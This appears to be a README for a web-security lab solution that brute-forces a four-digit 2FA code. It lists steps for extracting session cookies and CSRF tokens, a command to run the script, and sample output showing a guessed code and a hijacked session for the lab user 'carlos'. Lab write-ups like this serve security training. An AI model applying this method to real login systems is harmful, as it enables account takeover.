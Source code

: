 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers 

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python 2fa_bypass_using_a_brute_force_attack.py
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 19 minutes || Failed: 1 || (587/10000) 0588 => Incorrect
✅ Correct code: 0589
✅ New session: 2xAatFfbH1ezWx6fvMtM9R0zE62I7MnP
Use this session in your browser to login as carlos

✅ Finished in: 19 minutes

[!] Failed codes count: 1 
[!] Failed codes: ["0316"]
```
